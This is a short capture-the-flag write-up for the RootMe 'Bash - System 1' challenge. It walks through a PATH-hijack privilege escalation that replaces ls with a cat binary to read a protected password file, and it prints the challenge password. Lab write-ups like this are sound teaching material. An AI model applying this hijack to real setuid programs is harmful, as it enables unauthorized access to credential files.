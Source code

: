 ```yaml
---
title: RootMe BashSystem1 WriteUp
date: 2023-10-02 
categories: [RootMe, AppScript]
tags: [RootMe, RootMe - AppScript, WriteUp]
author: barabulkit
---
```


# Bash - System 1

Source code from this challenge

```c
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
    setreuid(geteuid(), geteuid());
    system("ls /challenge/app-script/ch11/.passwd");
    return 0;
}
```

so we need to change ls to cat somehow
we can copy that source to tmp and recompile with cat

```shell
cp ch11.c /tmp
vim /tmp/ch11.c
```

edit the sources

```c
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
    setreuid(geteuid(), geteuid());
    system("cat /challenge/app-script/ch11/.passwd");
    return 0;
}
```

compile with

```shell
gcc /tmp/ch11.c -o /tmp/ls
```

and then change PATH var and launch ch11 executable

```shell
export PATH=/tmp:$PATH
./ch11
```

we will get password !oPe96a/.s8d5